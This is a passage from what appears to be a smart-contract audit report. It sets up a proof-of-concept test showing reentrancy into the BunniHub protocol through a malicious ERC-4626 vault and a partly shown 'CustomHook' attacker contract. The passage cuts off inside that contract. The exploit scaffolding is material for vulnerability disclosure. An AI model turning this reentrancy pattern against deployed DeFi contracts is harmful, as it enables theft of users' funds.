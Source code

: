 ```solidity
    }
}
```

This vault implementation is just a normal ERC-4626 that can be switched into forwarding the execution to a malicious hook during withdraw and deposit functions. These are the methods that the `BunniHub` will use in order to reach the `targetRawBalance`.

* Inside `test/BaseTest.sol`, change the following import:

```diff
--	import {ERC4626Mock} from "./mocks/ERC4626Mock.sol";
++	import {ERC4626Mock, MaliciousERC4626} from "./mocks/ERC4626Mock.sol";
```

* Inside `test/BunniHub.t.sol`, paste the following malicious hook contract outside of the `BunniHubTest` contract:

```solidity
import {IAmAmm} from "biddog/interfaces/IAmAmm.sol";

enum Vector {
    HOOK_HANDLE_SWAP,
    WITHDRAW
}

contract CustomHook {
    uint256 public reentrancyIterations;
    uint256 public iterationsCounter;
    IBunniHub public hub;
    PoolKey public key;
    address public vault;
    Vector public vec;
    uint256 public amountOfReservesToWithdraw;
    uint256 public sharesToWithdraw;
    IPoolManager public poolManager;
    IPermit2 internal constant PERMIT2 = IPermit2(0x000000000022D473030F116dDEE9F6B43aC78BA3);

    function isValidParams(bytes calldata hookParams) external pure returns (bool) {
        return true;
    }

    function slot0s(PoolId id)
        external
        view
        returns (uint160 sqrtPriceX96, int24 tick, uint32 lastSwapTimestamp, uint32 lastSurgeTimestamp)
    {
        int24 minTick = TickMath.MIN_TICK;
        (sqrtPriceX96, tick, lastSwapTimestamp, lastSurgeTimestamp) = (TickMath.getSqrtPriceAtTick(tick), tick, 0, 0);
    }

    function getTopBidWrite(PoolId id) external view returns (IAmAmm.Bid memory topBid) {
        topBid = IAmAmm.Bid({manager: address(0), blockIdx: 0, payload: 0, rent: 0, deposit: 0});
    }

    function getAmAmmEnabled(PoolId id) external view returns (bool) {
        return false;
    }

    function canWithdraw(PoolId id) external view returns (bool) {
        return true;
    }

```